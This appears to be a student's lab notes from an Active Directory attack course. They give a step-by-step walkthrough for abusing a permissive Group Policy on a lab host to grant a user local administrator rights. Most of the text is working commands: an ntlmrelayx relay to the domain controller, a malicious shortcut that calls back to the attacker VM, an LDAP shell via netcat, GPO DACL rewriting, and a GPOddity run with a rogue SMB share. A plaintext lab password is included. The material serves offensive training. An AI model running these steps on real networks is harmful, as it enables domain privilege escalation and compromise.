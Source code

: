 - Abuse an overly permissive Group Policy to add studentX  to the local administrators group on dcorp-ci.
	- **If we have permissions to modify a GPO, we can do a lot of interesting things!**
	- `C:\AD\Tools\PowerView.ps1`
	- `Get-DomainGPO -Identity 'DevOps Policy'`
		- The `gpcfilesyspath` property is the one we need to modify.
		- The `displayname` 'DevOps Policy' is the name of the policy.
		- We are targeting this because DevOps Admin has permissions over this policy, verifiable using BloodHound.
	- First we are going to run an NTLM relay attack, using WSL for executing `ntlmrelayx` from the Impacket suite of tools.
		- `sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.1 --http-port '80,8080' -i --no-smb-server`
			- We are trying to relay from the LDAP service on the DC (`-t ldaps://172.16.2.1`), to the student VM (`-wh 172.16.100.1`).
			- Since we don't want to start an SMB server, the relaying is being done on port 80 and 8080.
			- The WSL sudo password can be found in the lab manual, it is same for all the student VMs.
		- Once the relaying server is set up, we need to create a shortcut that we will copy over on dcorp-ci and that will connect back to this relaying server that we have started on our student VM.
			- Create a new shortcut in the `C:\AD\Tools\` directory.
			- Set the location of the shortcut as the following PowerShell command:
				- `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.1' -UseDefaultCredentials`'
				- Save the shortcut with the name "student1".
		- We need to copy the shortcut we just created to the dcorp-ci machine, where a user simulation will execute it.
			- `xcopy C:\AD\Tools\student1.lnk \\dcorp-ci\AI`
		- Once the user simulation executes the malicious shortcut, we should get a connect back at our relaying server.
		- Now, we should have an interactive ldap shell via TCP on our student machine, authenticated as the `DCORP/DEVOPSADMIN` user.
			- The `DCORP/DEVOPSADMIN` user has rights over the `DEVOPS POLICY` GPO.
			- To connect to the ldap shell, we can start a new WSL ubuntu session on our student VM and use `netcat` to connect on the port specified by the `ntlmrelayx` success prompt.
				- `nc 127.0.0.1:11900`
			- Now we have two options to add studentX to the local administrators group on dcorp-ci.
				- Because we already have access to domain user studentX, we can provide studentX `WRITEDACL` permissions on then `DEVOPS POLICY` group policy.
					- In the ldap shell where we are authenticated as `DCORP/DEVOPSADMIN`, we can execute the following command:
						- `write_gpo_dacl student1 <policy id, can be determined using "Get-DomainGPO -Identity 'DevOps Policy'" and checking the "name" field>`
				- If we are operating from a non-domain user or otherwise as well, we can add a computer object and provide that object `WRITEDACL` permissions on the `DEVOPS POLICY` group policy.
		- Now that studentX has `WRITEDACL` on the `DEVOPS POLICY` group policy, we can terminate the ntlmrelayx process and the ldap shell that we were connected to.
	- Next we want to use GPOddity to execute the command to add studentX to the local administrators group.
		- Open a WSL session.
		- `cd /mnt/c/AD/Tools/GPOddity`
		- `sudo python3 gpoddity.py --gpo-id '<policy name, can be determined using "Get-DomainGPO -Identity 'DevOps Policy'" and checking the "name" field>' --domain 'dollarcorp.moneycorp.local' --username 'student1' --password 'wBUu9FnyVXe23FsM' --command 'net localgroup administrators student1 /add' --rogue-smbserver-ip '172.16.100.1' --rogue-smb-share 'std1-gp' --dc-ip '172.16.2.1' --smb-node none`
			- In case we wanted to add a computer object, we would provide the username and password for the computer object instead of the domain user.
			- The command we want to execute via the GPO creates a GPT that adds the studentX user to the local administrators group.
			- The rogue SMB server IP is going to be the IP of our student VM.
			- We can specify the share name here, we would have to create the share as follows for the attack to work:
				- Run a WSL session.
				- `cd /mnt/c/AD/Tools/`
				- `mkdir /mnt/c/AD/Tools/std1-gp`
				- Whenever we run GPOddity, it provides us with the malicious template in the `GPT_Out` directory, since for the attack the GPO path has to point to the malicious GPT, we will copy it to our SMB share.
				- `cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std1-gp`
				- Now we need to run a CMD prompt with administrative privileges, to create the required file share.
					- `net share std1-gp=C:\AD\Tools\std1-gp`
					- Next we want to provide everyone with full permissions on the share, so that the domain controller is easily able to access it during the attack, and the Group Policy is able to read the GPT from the share.
					- `icacls "C:\AD\Tools\std1-gp" /grant Everyone:F /T`
	- To verify that the attack has worked, we can use the following command to see if the value for the `gpcfilesyspath` property has changed to the directory of the share we created:
		- `Get-DomainGPO -Identity 'DevOps Policy'`
		- The GPOs are set to update every couple of minutes, so we might have to wait for a bit of time.
		- After we have verified that the attack has been executed successfully, we can try logging onto the dcorp-ci machine using winrs, and observe that we can login successfully.
			- `winrs -r:dcorp-ci cmd /c "set computername && set username"`